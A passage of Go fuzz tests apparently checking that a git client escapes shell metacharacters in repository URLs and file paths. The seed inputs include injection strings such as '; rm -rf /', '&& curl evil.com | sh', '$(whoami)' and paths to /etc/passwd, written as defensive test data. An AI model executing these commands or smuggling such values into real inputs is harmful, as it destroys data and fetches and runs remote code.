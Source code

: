 ```go
    seeds := []string{
        "https://github.com/org/repo.git",
        "git@github.com:org/repo.git",
        "https://github.com/org/repo.git; rm -rf /",
        "https://github.com/org/repo.git && curl evil.com | sh",
        "file:///etc/passwd",
        "https://user:pass@github.com/org/repo.git",
        "https://github.com/org/repo.git#$(whoami)",
        "../../../etc/passwd",
        "https://github.com/../../../../etc/passwd",
        "git://[::1]/repo.git",
    }
    
    for _, seed := range seeds {
        f.Add(seed)
    }
    
    f.Fuzz(func(t *testing.T, url string) {
        defer func() {
            if r := recover(); r != nil {
                t.Fatalf("Panic with URL: %v, input: %s", r, url)
            }
        }()
        
        client := &gitClient{
            runner: &mockCommandRunner{
                validateCommand: func(name string, args []string) error {
                    // Ensure URL is properly escaped
                    for _, arg := range args {
                        if arg == url && fuzz.ContainsShellMetachars(url) {
                            t.Errorf("Unescaped shell metacharacters in git command: %s", url)
                        }
                    }
                    return nil
                },
            },
        }
        
        _ = client.Clone(context.Background(), url, "/tmp/test", "main", nil)
    })
}

func FuzzGitFilePath(f *testing.F) {
    seeds := []string{
        "README.md",
        "../../../etc/passwd",
        "file with spaces.txt",
        "file;rm -rf /.txt",
        "file\x00.txt",
        ".git/config",
        "путь/к/файлу.txt", // Cyrillic path
        "文件/路径.txt",      // Chinese path
        "file|command.txt",
        "file>.txt",
        "file<.txt",
    }
    
    for _, seed := range seeds {
        f.Add(seed)
    }
    
    f.Fuzz(func(t *testing.T, filePath string) {
        defer func() {
```